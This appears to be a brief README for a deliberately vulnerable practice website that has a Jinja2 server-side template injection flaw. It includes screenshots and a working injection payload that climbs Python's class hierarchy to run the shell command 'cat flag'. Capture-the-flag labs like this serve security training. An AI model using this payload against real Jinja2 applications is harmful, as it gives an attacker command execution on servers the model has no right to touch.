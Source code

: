 This is simple website vulnerabel to jinja2 ssti


![1](https://github.com/user-attachments/assets/8f618ac1-58ff-4248-830c-c70a262b238c)

payload ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag").read()}}{%endif%}{% endfor %}```

![Screenshot from 2025-03-18 22-36-24](https://github.com/user-attachments/assets/cb31b531-462f-465f-8d39-e85530a42fd5)
